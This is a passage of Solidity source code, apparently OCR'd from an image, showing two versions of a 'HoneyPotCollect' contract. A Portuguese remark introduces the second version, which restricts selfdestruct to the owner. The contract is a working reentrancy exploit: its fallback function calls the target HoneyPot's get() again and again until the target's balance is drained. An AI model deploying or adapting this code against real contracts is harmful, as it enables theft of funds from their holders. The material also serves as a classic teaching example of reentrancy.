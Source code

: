   function() external {
    revert();
  }
  
}



contract HoneyPotCollect {
  HoneyPot public honeypot;
  
  constructor(address _honeypot) public payable {
    honeypot = HoneyPot(_honeypot);
  }
  
  function kill () public {
    selfdestruct(msg.sender);
  }
  
  function collect() public payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
  
  function () external payable {
    if (address(honeypot).balance >= msg.value) {
      honeypot.get();
    }
  }
  
  function totalSupply() public view returns (uint256) {
      return address(this).balance;
  }  
  
}


Somente o owner pode fazer o kill

contract HoneyPotCollect {
  HoneyPot public honeypot;
  address payable owner;
  
  constructor(address _honeypot) public payable {
    honeypot = HoneyPot(_honeypot);
    owner = msg.sender;
  }
  
  function kill () public {
    require (msg.sender == owner, "only owner");
    selfdestruct(msg.sender);
  }
  
  function collect() public payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
  
  function () external payable {
    if (address(honeypot).balance >= msg.value) {
      honeypot.get();
    }
  }
  